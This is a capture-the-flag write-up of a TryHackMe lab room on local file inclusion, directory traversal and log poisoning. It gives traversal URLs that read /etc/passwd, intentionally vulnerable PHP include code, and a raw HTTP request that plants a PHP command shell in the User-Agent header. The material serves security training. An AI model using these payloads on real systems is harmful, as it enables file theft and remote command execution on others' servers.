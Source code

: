 # Room
https://tryhackme.com/room/lfibasics

# Task 1 - Intro
LFI - Local File Inclusion.  LFI is a vulnerability that allows an attacker to include or read files.  It occurs when an applications uses the path to a file as input

Example
```
http://10.10.63.217/lfi/lfi.php?page=/etc/passwd
```

Vulnerable Code Example
```
$local_file = $_REQUEST["page"];
```

# Task 2 - LFI with Directory Traversal
Directory Traversal, sometimes called Path Traversal, is an HTTP attack that allows attackers to access restricted directories and execute commands

Example
```
http://10.10.63.217/lfi2/lfi.php?page=../creditcard
http://10.10.63.217/lfi2/lfi.php?page=../../../../../etc/passwd
```

Vulnerable Code Example
```
$local_file = "html/".$_REQUEST["page"];
```

# Task 3 - RCE with LFI and Log Poisoning
Log Poisoning is a technique used to gain a reverse shell from an LFI

* Log to poison
  * /var/log/apache2/access.log
* Use Burp to inercept the GET request and insert <?php system($_GET['lfi']); ?>  in the user agent, and then append &lfi=command_here to execute a command

```
GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=pwd HTTP/1.1
Host: 10.10.63.217
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0 <?php system($_GET['lfi']); ?> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

* LFI Resources
  * https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion